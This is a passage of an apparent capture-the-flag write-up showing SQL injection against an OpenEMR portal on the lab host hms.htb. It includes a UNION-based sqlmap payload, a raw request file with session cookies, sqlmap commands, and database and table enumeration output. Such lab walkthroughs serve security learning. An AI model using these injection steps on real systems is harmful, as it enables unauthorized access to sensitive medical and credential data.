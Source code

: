 ```
    Title: Generic UNION query (NULL) - 4 columns
    Payload: eid=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71787a7a71,0x73535a4b567775646f4d7849526d4b6d4a697572466f44734446724d5072526b7079474c6a616242,0x717a716271),NULL-- -
---
[23:28:23] [INFO] the back-end DBMS is MySQL
[23:28:23] [INFO] fetching banner
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.1
banner: '5.7.30-0ubuntu0.18.04.1'
[23:28:23] [INFO] fetched data logged to text files under '/home/cyfun/.sqlmap/output/hms.htb'
[23:28:23] [WARNING] you haven't updated sqlmap for more than 84 days!!!

[*] ending @ 23:28:23 /2020-07-14/
```

Alternatively you can store the raw HTTP request in a file:

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: OpenEMR=jcn4a7ce07kbngbo7r9rolttgu; PHPSESSID=fcfeq8h77phga1bs6b1cshh64e
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

And then tell sqlmap to use this req file:

```
$ sqlmap -r "$(pwd)/sqli.req" --random-agent --threads 10 --batch -b
```

Now let's use sqlmap dump options.

`--dbs`

```
available databases [2]:
[*] information_schema
[*] openemr
```

`-D openemr --tables`

```
Database: openemr
[234 tables]
+---------------------------------------+
| array                                 |
| groups                                |
| sequences                             |
...
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
```
